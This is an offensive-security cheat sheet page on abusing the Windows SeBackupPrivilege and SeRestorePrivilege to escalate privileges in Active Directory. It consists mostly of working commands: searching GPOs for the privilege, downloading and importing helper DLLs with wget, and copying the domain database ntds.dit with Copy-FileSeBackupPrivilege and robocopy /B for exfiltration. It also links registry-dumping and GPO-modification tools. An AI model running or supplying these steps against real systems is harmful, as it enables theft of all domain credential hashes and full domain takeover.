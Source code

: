 # SeBackupPrivilege & SeRestorePrivilege

Search for `SeBackupPrivilege` through GPO policies:

```
$ gci -Path \\$ENV:USERDNSDOMAIN\sysvol\$ENV:USERDNSDOMAIN\Policies\ -Recurse -File  -ErrorAction SilentlyContinue | Select-String "SeBackupPrivilege"
```




## File Copy

- [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)
- [https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#priv-svc_backup--administrator](https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#priv-svc_backup--administrator)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```



### robocopy

- [https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#read-as-system](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#read-as-system)

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```




## Registry

- [https://github.com/mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)
- [https://github.com/improsec/BackupOperatorToolkit](https://github.com/improsec/BackupOperatorToolkit)
- [https://github.com/snovvcrash/RemoteRegSave](https://github.com/snovvcrash/RemoteRegSave)
- [https://github.com/horizon3ai/backup_dc_registry](https://github.com/horizon3ai/backup_dc_registry)




## Modify GPO

- [https://systemweakness.com/expoiting-and-detecting-privilege-escalation-via-a-windows-backup-operator-attack-and-detection-a97e67644214](https://systemweakness.com/expoiting-and-detecting-privilege-escalation-via-a-windows-backup-operator-attack-and-detection-a97e67644214)
